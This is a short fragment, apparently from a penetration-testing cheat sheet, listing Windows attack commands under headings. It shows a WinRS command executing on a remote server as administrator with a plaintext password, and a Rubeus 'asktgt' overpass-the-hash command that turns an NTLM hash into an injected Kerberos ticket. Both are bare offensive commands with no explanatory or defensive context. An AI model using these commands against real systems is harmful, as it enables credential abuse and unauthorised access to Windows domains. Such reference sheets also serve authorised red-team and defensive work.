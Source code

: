 ### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```

### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```


